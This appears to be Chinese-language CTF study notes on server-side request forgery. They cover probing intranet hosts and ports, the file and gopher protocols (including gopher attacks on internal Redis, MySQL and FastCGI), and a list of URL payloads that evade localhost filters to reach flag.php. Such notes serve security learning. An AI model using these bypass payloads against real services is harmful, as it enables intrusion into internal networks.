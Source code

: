可以来探测内网主机存活和端口开放情况

```
比如可以用什么爆破端口来直接判断端口开放情况，也可以判断内网主机存活
```

结构：http://host:port/path/?query=value#anchor

#### file协议和http协议的区别
```php
file 协议与 http 协议的区别 ¶
（1）file 协议主要用于读取服务器本地文件，访问的是本地的静态资源
（2）http 是访问本地的 html 文件，简单来说 file 只能静态读取，http 可以动态解析
（3）http 服务器可以开放端口，让他人通过 http 访问服务器资源，但 file 不可以
（4）file 对应的类似 http 的协议是 ftp 协议（文件传输协议）
（5）file 不能跨域
```
####  gopher://协议
定义：gopher协议是一种信息查找系统，他将Internet上的文件组织成某种索引，方便用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。利用此协议可以攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求。这拓宽了 SSRF 的攻击面。

gopher协议的格式：gopher://IP:port/_TCP/IP数据流
```
gopher协议发送http get请求
构造HTTP数据包
URL编码、替换回车换行为%0d%0a，HTTP包最后加%0d%0a代表消息结束---回车换行
```
发送gopher协议, 协议后的IP一定要接端口
```
发送http post请求
POST与GET传参的区别：它有4个参数为必要参数
需要传递Content-Type,Content-Length,host,post的参数
而且其中Content-Length，需要跟post的内容长度相同  ---重要
```
### 绕过姿势：

这是对`ip地址`进行过滤的bypass

```
1.进制转换
十六进制
url=http://0x7F.0.0.1/flag.php
八进制
url=http://0177.0.0.1/flag.php
10 进制整数格式
url=http://2130706433/flag.php
16 进制整数格式，还是上面那个网站转换记得前缀0x
url=http://0x7F000001/flag.php

2.特殊模式
url=http://127.1/flag.php
url=http://0/flag.php
url=http://127.0000000000000.00.1/flag.php

3.0.0.0.0绕过
url=http://0.0.0.0/flag.php

4.用CIDR绕过localhost
url=http://127.127.127.127/flag.php

5.短标签绕过
http://dwz.cn/11SMa==>http://127.0.0.1（网上有转换工具）

6.使用@来绕过，可以针对限制了网址的题
http://www.baidu.com@127.0.0.1/与http://127.0.0.1请求的都是127.0.0.1的内容

```